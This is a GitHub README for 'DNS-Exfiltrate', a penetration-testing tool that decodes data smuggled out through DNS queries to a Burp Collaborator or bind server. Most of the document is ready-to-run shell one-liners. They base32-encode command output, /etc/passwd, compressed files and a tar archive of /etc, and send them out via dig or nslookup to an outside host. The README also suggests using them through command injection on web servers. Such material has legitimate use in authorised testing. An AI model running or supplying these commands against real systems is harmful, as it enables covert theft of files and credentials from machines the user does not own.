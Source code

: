 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). You may also prepend multiple hostnames, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

Exfiltrate the base32-encoded output from `whoami` via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters.

Hex encoding is also safe for DNS queries (but is less efficient). I plan to add hex support in the future. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Send STDOUT from a command:

```
ifconfig | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the output:

```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a file:

```
base32 -w 63 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the file:

```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
gzip - < /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/unzip the file:

```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/save the tar archive:

```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration):

```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log | base32 -d
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration):

```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log | base32 -d 
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration):

```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | base32 -d | zcat
```

